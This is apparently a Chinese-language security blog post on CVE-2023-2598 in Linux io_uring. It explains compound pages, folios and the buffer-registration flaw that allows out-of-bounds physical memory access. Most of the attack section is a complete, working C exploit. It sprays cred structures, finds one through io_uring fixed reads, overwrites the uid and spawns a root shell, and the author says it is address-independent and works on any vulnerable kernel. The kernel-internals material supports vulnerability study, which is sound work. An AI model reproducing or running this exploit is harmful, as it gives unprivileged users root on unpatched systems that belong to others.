


# CVE-2023-2598 提权

通过CVE-2023-2598了解linux中的`Compound Page`和`folio`机制，后续看能否完成对1day`CVE-2023-6560`的利用

## Compound Page(huge page)

内存越来越大，但是linux的基础页分配单位还是4K变得捉襟见肘，因此引入复合页来解决这种问题，复合页其实就是把多个页当做一个集合，将两个或更多物理上连续的页面组合成一个单元，在许多方面可以将其视为单个更大的页面。它们最常用于创建大页面，在hugetlbfs或透明大页(transparent huge pages)子系统中使用，但它们也出现在其他场景中。复合页可以用作匿名内存或用作内核中的buffers；但是，它们不能出现在page cache中，page cache只能处理单个页面。

分配复合页面是调用 alloc_pages() 并设置 **__GFP_COMP** 分配标志和页帧数大于1, 即order至少为1。这是复合页实现机制决定的。

**注意复合页一定是物理上连续的**

第一个page 中的flag 会标记 PG_head，标记此为复合页头页；

之后所有page 都会配置两个属性：mapping 和 compound_head，并且通过 compound_head 确认是尾页还是头页，详细看 compound_head() 函数；

第二个page 中会存放更多复合页的信息，这也是为什么复合页的 order 至少为 1 的原因；

```c
static inline unsigned long _compound_head(const struct page *page)
{
        unsigned long head = READ_ONCE(page->compound_head);
 
        if (unlikely(head & 1))
                return head - 1;
        return (unsigned long)page;
}
```

可见该字段不仅包含了标志，还包含了指向head page的指针。

所以当得到一个`page`的时候可以很容易的判断是否是复合页，如果是复合页的话是head page还是tail page。但是还缺少一个关键信息，那就是这个复合页的大小，如果不知道这个复合页大小的话，当free这个复合页的时候需要知道大小。而这些信息全部存储在第一个尾页的lru字段中，将该复合页的大小（order）首先强制转换为指针类型，然后存储在lru.prev中，将析构函数存储在lru.next中。

只要知道head page和复合页的大小就能够正确的释放这个大页，因为复合页都是物理连续的。

结构如下图所示


## folio

folio 可以看成是 page 的一层包装，没有开销的那种。folio 可以是单个页，也可以是复合页。


上图是 page 结构体的[示意图](https://zhida.zhihu.com/search?q=示意图&zhida_source=entity&is_preview=1)，64 字节管理 flags, lru, mapping, index, private, {ref_, map_}count, memcg_data 等信息。当 page 是复合页的时候，上述 flags 等信息在 head page 中，tail page 则复用管理 compound_{head, mapcount, order, nr, dtor} 等信息。

```text
struct folio {
        /* private: don't document the anon union */
        union {
                struct {
        /* public: */
                        unsigned long flags;
                        struct list_head lru;
                        struct address_space *mapping;
                        pgoff_t index;
                        void *private;
                        atomic_t _mapcount;
                        atomic_t _refcount;
#ifdef CONFIG_MEMCG
                        unsigned long memcg_data;
#endif
        /* private: the union with struct page is transitional */
                };
                struct page page;
        };
};
```

folio 的结构定义中，flags, lru 等信息和 page 完全一致，因此可以和 page 进行 union。这样可以直接使用 folio->flags 而不用 folio->page->flags。

```text
#define page_folio(p)           (_Generic((p),                          \
        const struct page *:    (const struct folio *)_compound_head(p), \
        struct page *:          (struct folio *)_compound_head(p)))

#define nth_page(page,n) ((page) + (n))
#define folio_page(folio, n)    nth_page(&(folio)->page, n)
```

第一眼看 page_folio 可能有点懵，其实等效于：

```text
switch (typeof(p)) {
  case const struct page *:
    return (const struct folio *)_compound_head(p);
  case struct page *:
    return (struct folio *)_compound_head(p)));
}
```

通过`page_folio`宏定义，可以发现folio其实就是一个复合页的head page,folio 转化为 page 时，folio->page 用于获取 head page，folio_page(folio, n) 可以用于获取 tail page。

那要folio干啥呢，更多的，这是为了开发和效率考虑，如果没有folio的话，函数内部无法判断当前page是否为head page,所以会调用`_compound_head`,如果执行路径多了，在路径上的每个函数都使用`_compound_head`一遍的话会影响效率，可是如果函数只接受`struct folio *`参数的话，这个folio就指向head page,所以函数内部不用再调用`_compound_head`了。

因此主要有这三个作用：

1）减少太多冗余 compound_head 的调用。

2）给开发者提示，看到 folio，就能认定这是 head page。

3）修复潜在的 tail page 导致的 bug。

## 漏洞原理

在io_uring的`io_uring_register_buffer`,他有这么一段逻辑



当用户态传入的页面大于1的话，io_uring就会检查传入的`buffer`是不是`folio`,判断方法就是利用`page_folio()`得到该page[i]的头页，如果page[i]的头页等于page[0]的话就会认为这属于同一个复合页表。

一般来说这个处理时没有问题的，但存在一个特殊情况，则是如果在用户态使用`mmap`将同一个物理页表映射到连续的虚拟地上上，也符合这个判断条件，则最后会进入这个分支


此时，用户态只申请了一个物理页面，但是最后size却是连续虚拟地址的size,导致size可以大于实际申请的物理地址区域。最终造成溢出读写。

## 漏洞利用

喷射cred,然后利用这个越界读写接口修改uid。

比起网上那篇exp，这个exp由于是改写uid所以没有地址依赖，存在该漏洞都可以使用该exp。

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <liburing.h>
#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>
#include <mqueue.h>
#include <sys/syscall.h>
#include <unistd.h>
#include <sys/resource.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/tcp.h>
#include <assert.h>

#define COLOR_RED "\033[1;31m"
#define COLOR_GREEN "\033[1;32m"
#define COLOR_RESET "\033[0m"
#define PAGE_SIZE 0x1000
#define MAX_PAGES 100
#define CRED_DRAIN 100
#define CRED_SPRAY 600

#define check_ret(ret, buf) do { if((ret) < 0) { err_exit(buf); } } while(0)

int check_root_pipe[2];
char bin_sh_str[] = "/bin/sh";
char *shell_args[] = { bin_sh_str, NULL };
char child_pipe_buf[1];
char root_str[] = "\033[32m\033[1m[+] Successful to get the root.\n"
                  "\033[34m[*] Execve root shell now...\033[0m\n";
struct timespec timer = {
    .tv_sec = 1145141919,
    .tv_nsec = 0,
};

void err_exit(char *buf){
    fprintf(stderr, "%s[-]%s : %s%s\n", COLOR_RED, buf, strerror(errno), COLOR_RESET);
    exit(-1);
}
void log(char *buf){
    fprintf(stdout,"%s[+]%s%s\n",COLOR_GREEN,buf,COLOR_RESET);
}
void cred_drain(){
    for(int i=0;i<CRED_DRAIN;i++){
        int ret=fork();
        if(!ret){
            read(check_root_pipe[0],child_pipe_buf,1);
            if(getuid()==0){
                write(1, root_str, 71);
                system("/bin/sh");
            }
            sleep(100000000);
        }
        check_ret(ret,"fork fail");
    }
}
void clear_buddy(){
    void * pages[MAX_PAGES];
    for(int i=0;i<MAX_PAGES;i++){
        pages[i]=mmap(0x60000000+i*0x200000UL,PAGE_SIZE,PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS,-1,0);
        check_ret(pages[i],"mmap");
    }
    for(int i=0;i<MAX_PAGES;i++){
        *(char *)pages[i]='a';
    }
}
__attribute__((naked)) long simple_clone(int flags, int (*fn)(void *))
{
    /* for syscall, it's clone(flags, stack, ...) */
    __asm__ volatile (
        " mov r15, rsi\n"   /* save the rsi*/
        " xor rsi, rsi\n"   /* set esp and useless args to NULL */
        " xor rdx, rdx\n"
        " xor r10, r10\n"
        " xor r8, r8\n"
        " xor r9, r9\n"
        " mov rax, 56\n"   /* __NR_clone */
        " syscall\n"
        " cmp rax, 0\n"
        " je child_fn\n"
        " ret\n"   /* parent */
        "child_fn:    \n"
        " jmp r15\n"   /* child */
    );
}


int waiting_for_root_fn(void *args)
{
    /* we're using the same stack for them, so we need to avoid cracking it.. */
    __asm__ volatile (
        "   lea rax, [check_root_pipe]\n"
        "   xor rdi, rdi\n"
        "   mov edi, dword ptr [rax]\n"
        "   mov rsi, child_pipe_buf\n"
        "   mov rdx, 1\n"
        "   xor rax, rax\n" /* read(check_root_pipe[0], child_pipe_buf, 1)*/
        "   syscall\n"
        "   mov rax, 102\n" /* getuid() */
        "   syscall\n"
        "   cmp rax, 0\n"
        "   jne failed\n"
        "   mov rdi, 1\n"
        "   lea rsi, [root_str]\n"
        "   mov rdx, 80\n"
        "   mov rax, 1\n"    /* write(1, root_str, 71) */
        "   syscall\n"
        "   lea rdi, [bin_sh_str]\n"
        "   lea rsi, [shell_args]\n"
        "   xor rdx, rdx\n"
        "   mov rax, 59\n"
        "   syscall\n"   /* execve("/bin/sh", args, NULL) */
        "failed: \n"
        "   lea rdi, [timer]\n"
        "   xor rsi, rsi\n"
        "   mov rax, 35\n"  /* nanosleep() */
        "   syscall\n"
    );
    return 0;
}


int main(){
    cpu_set_t set;
	CPU_ZERO(&set);
	CPU_SET(sched_getcpu(), &set);
	if (sched_setaffinity(0, sizeof(set), &set) < 0) {
		perror("sched_setaffinity");
		exit(EXIT_FAILURE);
	}
    struct io_uring ring;
    struct io_uring_sqe *sqe;
    struct io_uring_cqe *cqe;
    int ret;
    int memfd;
    int rw_fd;
    struct iovec iovec;
    char *rw_buffer;
    uint64_t start_addr=0x800000000;
    int nr_pages=500;
    char buf[1000];
    //清空cred cache
    log("drain cred cache");
    pipe(check_root_pipe);
    cred_drain();
    //清空buddy system cache
    log("clear buddy system cache");
    clear_buddy();
    //初始化io_uring
    log("io_uring_setup");
    ret=io_uring_queue_init(8,&ring,0);
    check_ret(ret,"io_uring_setup fail");
    //准备缓冲区
    log("prepare buf to register");
    memfd=memfd_create("io_register_buf",MFD_CLOEXEC);
    check_ret(memfd,"memfd_create fail");
    rw_fd=memfd_create("read_write_file",MFD_CLOEXEC);
    check_ret(rw_fd,"memfd_create fail");
    check_ret(fallocate(memfd, 0, 0, 1 * PAGE_SIZE),"fallocate fail");
    check_ret(fallocate(rw_fd, 0, 0, 1 * PAGE_SIZE),"fallocate fail");
    for(int i=0;i<nr_pages;i++){
        check_ret(mmap(start_addr+i*0x1000,PAGE_SIZE,PROT_READ|PROT_WRITE,MAP_SHARED|MAP_FIXED,memfd,0),"mmap fail");
    }
    rw_buffer=mmap(NULL,PAGE_SIZE,PROT_READ|PROT_WRITE,MAP_SHARED,rw_fd,0);
    check_ret(rw_buffer,"mmap fail");
    //注册缓冲区
    log("register buffer");
    iovec.iov_base=start_addr;
    iovec.iov_len=nr_pages*PAGE_SIZE;
    check_ret(io_uring_register_buffers(&ring,&iovec,1),"io_ring_register_buffer fail");
    //spray cred
    log("spray cred");
    for(int i=0;i<CRED_SPRAY;i++){
        check_ret(simple_clone(CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND, waiting_for_root_fn),"clone fail");
    }
    //search cred page
    log("search crea page");
    int page_offset=0;
    for(int i=0;i<nr_pages;i++){
        sqe=io_uring_get_sqe(&ring);
        check_ret(sqe,"io_uring_get_sqe fail");
        io_uring_prep_write_fixed(sqe,rw_fd,start_addr+i*PAGE_SIZE,PAGE_SIZE,0,0);
        check_ret(io_uring_submit(&ring),"io_uring_submit fail");
        io_uring_wait_cqe(&ring, &cqe);
        io_uring_cqe_seen(&ring, cqe);
        int uid=((int *)(rw_buffer))[1];
        int gid=((int *)(rw_buffer))[2];
        if(uid==1000 && gid==1000){
            page_offset=i;
            break;
        }
    }
    if(page_offset==0){
        err_exit("not find cred page");
    }
    //edit cred's uid
    log("/edit cred's uid");
    *(size_t *)(rw_buffer)=0x2;
    sqe=io_uring_get_sqe(&ring);
    check_ret(sqe,"io_uring_get_sqe fail");
    io_uring_prep_read_fixed(sqe,rw_fd,start_addr+page_offset*PAGE_SIZE,8,0,0);
    check_ret(io_uring_submit(&ring),"io_uring_submit fail");
    io_uring_wait_cqe(&ring, &cqe);
    io_uring_cqe_seen(&ring, cqe);


    sqe=io_uring_get_sqe(&ring);
    check_ret(sqe,"io_uring_get_sqe fail");
    io_uring_prep_write_fixed(sqe,rw_fd,start_addr+page_offset*PAGE_SIZE,PAGE_SIZE,0,0);
    check_ret(io_uring_submit(&ring),"io_uring_submit fail");
    io_uring_wait_cqe(&ring, &cqe);
    io_uring_cqe_seen(&ring, cqe);
    //check privilege in child processes
    log("check privilege in child processes");
    write(check_root_pipe[1],buf, CRED_SPRAY+CRED_DRAIN);
    sleep(100000000);
}
```

## 思考

注意这段代码



如果传入的确实是一个复合页并注册，则io_uring不会对后面的page增加引用计数，如果用户态在这个复合页的中间取消映射，则对应的内存区域由于引用只有1则会彻底的释放，但是io_uring中记录的size并没有改变，则就可以通过io_uring来越界读写了，可惜中的可惜是经过我的测试，linux不允许从复合页的中间取消映射，不过这也合理，如果能的话，则对于page会很不好管理。


